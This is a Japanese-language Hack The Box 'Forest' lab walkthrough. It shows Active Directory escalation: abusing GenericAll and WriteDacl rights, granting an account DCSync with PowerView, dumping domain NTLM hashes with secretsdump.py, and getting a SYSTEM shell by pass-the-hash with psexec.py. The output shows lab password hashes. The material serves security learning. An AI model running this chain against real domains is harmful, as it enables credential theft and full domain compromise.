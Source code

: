参照：[Hack The Box - Forest Walkthrough](https://youtu.be/kcv9cH-nLq8)

## Exchange Windows Permissionsグループへの自身の追加と新規アカウント作成

svc-alfrescoのノードにおいて、`Reachable High Value Targes`をクリックした結果：

![スクリーンショット 2021-12-19 14 45 45](https://user-images.githubusercontent.com/85237728/146665370-fa20347c-7222-461b-81f7-c07421e7e608.png)

-> `ACCOUNT OPERATORS`のメンバは`EXCHANGE WINDOWS PERMISSIONS`に対して**GenericAll**である。つまり`EXCAHNGE WINDOWS PERMISSIONS`にユーザを作ったり、自分自身を追加したりできる。

（GenericAllのヘルプ）
> The members of the group ACCOUNT OPERATORS@HTB.LOCAL have GenericAll privileges to the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL.<br>This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

そして、`EXCHANGE WINDOWS PERMISSIONS`のメンバーは`HTB.LOCAL`に対して**WriteDacl**の権限がある！

（Write Daclのヘルプ）
> The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL.
> <br>With write access to the target object's DACL, you can grant yourself any privilege you want on the object.

まず、`net group`コマンドにて、`svc-alfresco`ユーザを`Exchange Windows Permissions`グループへ追加（svc-alfrescoはACCOUNT OPERATORに属してるから可能）。

```
*Evil-WinRM* PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions" svc-alfresco /add
The command completed successfully.
```

（`net group`や`whoami /groups`で確認）

注）addしたのにメンバーになってない場合は、一旦Evil-WinRMを^Cで抜けて、もう一度接続し直すとよい。

新規ドメインアカウントを作成する。

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user shoebill Passw0rd! /add /domain
The command completed successfully.
```

新規ドメインアカウントshoebillを`EXCHANGE WINDOWS PERMISSIONS`に入れる（svc-alfrescoはACCOUNT OPERATORに属してるから可能）。

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'Exchange Windows Permissions' shoebill /add
The command completed successfully.
```

（できれば、`Remote Management Users`にも属させておく）

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'Remote Management Users' shoebill /add
The command completed successfully.
```

-> *ここまでで、まず自分svc-alfrescoを`Excange Windows Permissions`に配属させ、さらに`Exchange Windows Permissions`に新規のアカウント**shoebill**をも配属させた。*

## PowerView.ps1によるDCSync

```
*Evil-WinRM* PS C:\Users\svc-alfresco> Import-Module .\PowerView.ps1
```
> To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

```
*Evil-WinRM* PS C:\Users\svc-alfresco> Add-DomainObjectAcl -PrincipalIdentity shoebill -TargetIdentity 'DC=htb, DC=local' -Rights DCSync
```
＝「**htb.local**のアカウント**shoeiblll**に**DCSync**のprivilegeを持たせる」

注）`Add-DomainObjectAcl -PrincipalIdentity shoebill -TargetIdentity htb.local -Rights DCSync`ではエラー！（DCはDomain Component）.

> `Add-DomainObjectAcl`: Adds an ACL for a specific active directory object. This function modifies the ACL/ACE entries for a given Active Directory target object specified by `-TargetIdentity`.  These rights are granted on the target object for the specified `-PrincipalIdentity`.

DCSyncのprivielgeを持ったユーザが作成できたら、**secretsdump.py**でハッシュダンプ。

```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py 'htb.local/shoebill:Passw0rd!@10.10.10.161'

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
```

最後にPass the HashでAdminのシェルゲット

```
┌──(kali㉿kali)-[~]
└─$ psexec.py Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file zEmdPRll.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service saol on 10.10.10.161.....
[*] Starting service saol.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


DCSync攻撃とは？...**自分がドメインコントローラになりすますことでドメイン内のユーザハッシュが上記のように取れる。**

## 何度やってもできなかったら...

```
*Evil-WinRM* PS C:\Users\svc-alfresco> $pass = ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco> $cred = New-Object System.Management.Automation.PSCredential('htb\harmj0y',$pass)
*Evil-WinRM* PS C:\Users\svc-alfresco> Add-DomainObjectAcl -Credential $cred -TargetIdentity 'DC=htb,DC=local' -PrincipalIdentity harmj0y -Rights DCSync
```

と設定してから

```
┌──(kali㉿kali)-[~] 
└─$ secretsdump.py 'htb.local/harmj0y:Passw0rd!@10.10.10.161'
```

を実行するとうまくいくかも（ここ：https://ranakhalil101.medium.com/hack-the-box-forest-writeup-w-o-metasploit-63070c9020e4 ではそうしてた。）
